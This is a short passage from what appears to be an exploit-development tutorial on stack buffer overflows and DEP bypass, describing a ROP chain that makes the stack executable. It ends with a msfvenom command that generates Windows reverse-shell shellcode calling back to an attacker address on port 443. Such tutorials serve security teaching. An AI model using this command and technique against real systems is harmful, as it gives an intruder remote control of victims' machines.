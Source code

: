
After modifying and sending the exploit, we hit our breakpoint after a series of \x90's (NOPs), which means it worked :) We execute the breakpoint that was placed on the stack. We made the stack executable!

You can place anything after the ROP chain, such as `\xcc`, which is a breakpoint or `\x90's` or even your shellc



![StackExecutable.png](/images/2020-10-12-Stack-Based-Buffer-Overflows-DEP-Part-4/ad2bd7af55e746938d2cc7078f457fef.png)

To geenerate a reverse shell, you can use the following:

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.16.128 LPORT=443 EXITFUNC=thread -b '\x00' -f c`
